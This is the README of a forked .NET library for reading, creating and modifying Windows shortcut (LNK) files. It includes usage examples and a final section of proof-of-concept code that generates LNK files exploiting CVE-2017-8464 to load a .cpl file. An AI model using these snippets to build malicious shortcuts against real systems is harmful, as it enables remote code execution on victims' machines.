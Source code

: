 # Intro
**This repository is copied from [securifybv](https://github.com/securifybv).**

I am creating a lnk file for my wpf application. And I don't want to apply COM into my solution.  
Then I search the github.com for opensource repository.

The original intention of this copy is to build nugets of these two libraries. 

I make a Azure Pipeline to build nuget automatically. Everyone can install these nugets for fast usage rather than copy files into their projects.
# [PropertyStore](https://github.com/securifybv/PropertyStore)
.NET Class Library for processing Serialized Property Stores as documented in [MS-PROPSTORE](https://msdn.microsoft.com/en-us/library/dd871346.aspx).

This Class Library is mainly used as support library for the [ShellLink](https://github.com/securifybv/ShellLink) Class Library.

# [ShellLink](https://github.com/securifybv/ShellLink)
A .NET Class Library for processing ShellLink (LNK) files as documented in [MS-SHLLINK](https://msdn.microsoft.com/en-us/library/dd871305.aspx). It allows for reading, creating and modifying ShellLink (LNK) files.

Note this Class Library depends on the [PropertyStore](https://github.com/securifybv/PropertyStore) Class Library.

## Examples

### Dump
```
Console.WriteLine(
	Shortcut.ReadFromFile(@"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Paint.lnk")
);
```

#### Sample Output
```
Shortcut:
HeaderSize: 76 (0x4C)
LinkCLSID: 00021401-0000-0000-c000-000000000046
LinkFlags: HasName, HasIconLocation, IsUnicode, ForceNoLinkInfo, HasExpString, EnableTargetMetadata, PreferEnvironmentPath
FileAttributes: 0
CreationTime: 1/1/1601 12:00:00 AM
AccessTime: 1/1/1601 12:00:00 AM
WriteTime: 1/1/1601 12:00:00 AM
FileSize: 0 (0x0)
IconIndex: 0
ShowCommand: SW_SHOWNORMAL
HotKey: 0
StringData:
NameString: @%SystemRoot%\system32\shell32.dll,-22566
IconLocation: %windir%\system32\mspaint.exe
ExtraData:
EnvironmentVariableDataBlock:
BlockSize: 788 (0x314)
BlockSignature: 0xA0000001
TargetAnsi: %windir%\system32\mspaint.exe
TargetUnicode: %windir%\system32\mspaint.exe
PropertyStoreDataBlock:
BlockSize: 102 (0x66)
BlockSignature: 0xA0000009
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 46588ae2-4cbc-4338-bbfc-139326986dce
IntegerName:
ValueSize: 17 (0x11)
ID: 0x0
TypedPropertyValue:
Type: VT_UI4
Value: 0
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 9f4c2855-9f79-4b39-a8d0-e1d42de1d5f3
IntegerName:
ValueSize: 17 (0x11)
ID: 0x12
TypedPropertyValue:
Type: VT_UI4
Value: 1
```

### Create
```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\calc.exe")
	.WriteToFile(@"calc.lnk");
```

```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\cmd.exe", 
	"/c calc.exe", 
	@"%SystemRoot%\System32\calc.exe", 0)
		.WriteToFile(@"calc2.lnk");
```

```
new Shortcut()
{
	LinkTargetIDList = new LinkTargetIDList()
	{
		Path = @"C:\Windows\System32\calc.exe"
	}
}.WriteToFile(@"calc3.lnk");
```

### Modify
```
Shortcut PowerShellLnk = Shortcut.ReadFromFile(
	Environment.ExpandEnvironmentVariables(@"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Windows PowerShell\Windows PowerShell.lnk")
);
// change the background color
PowerShellLnk.ExtraData.ConsoleDataBlock.FillAttributes &= ~FillAttributes.BACKGROUND_BLUE;
PowerShellLnk.WriteToFile(@"PowerShell.lnk");
```

### CVE-2017-8464 | LNK Remote Code Execution Vulnerability

#### SpecialFolderDataBlock
```
Shortcut poc = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl"),
};
int Index = poc.LinkTargetIDList.ItemIDList.Count - 1;
poc.ExtraData.SpecialFolderDataBlock = new SpecialFolderDataBlock()
{
	SpecialFolderID = CSIDL.CSIDL_CONTROLS,
	Offset = poc.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc.WriteToFile(@"CVE-2017-8464.lnk");
```

#### KnownFolderDataBlock
```
Shortcut poc2 = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl")
};
int Index = poc2.LinkTargetIDList.ItemIDList.Count - 1;
poc2.ExtraData.KnownFolderDataBlock = new KnownFolderDataBlock()
{
	KnownFolderID = KNOWNFOLDERID.FOLDERID_ControlPanelFolder,
	Offset = poc2.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc2.WriteToFile(@"CVE-2017-8464-2.lnk");
```

